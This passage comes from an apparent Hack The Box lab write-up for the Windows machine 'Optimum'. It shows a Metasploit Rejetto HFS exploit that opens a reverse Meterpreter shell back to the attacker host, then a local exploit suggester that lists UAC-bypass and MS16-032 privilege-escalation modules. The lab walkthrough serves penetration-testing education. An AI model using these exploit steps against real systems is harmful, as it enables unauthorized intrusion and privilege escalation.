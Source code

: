 I was also running Gobuster against the application but that came up empty, we could definitely continue to do some content discovery if we get stuck, but for now we have a couple of leads to work with.

## Initial Compromise

We saw a couple of exploits that match the running version.

There is a Metasploit module that will get us a shell on the box.

```
msf exploit(windows/http/rejetto_hfs_exec) > exploit 

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] Using URL: http://10.10.14.17:8080/7Bq94ZRg1lvo
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /7Bq94ZRg1lvo
[*] Sending stage (179779 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.10.10.8:49162) at 2018-11-19 16:23:10 +0100
[!] Tried to delete %TEMP%\LvRPDcWqmgY.vbs, unknown result
[*] Server stopped.

meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid 
Server username: OPTIMUM\kostas
```
We see that we are running a 32-bit meterpreter on a 64-bit host. We need to have this in mind for the next steps.


## Privilege Escalation

I usually run the msfmodue "multi/recon/local_exploit_suggester" against Windows boxes if I have a meterpreter shell on the box.

Output of running the exploitsuggester as 32-bit.

```
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 28 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[*] Post module execution completed
```
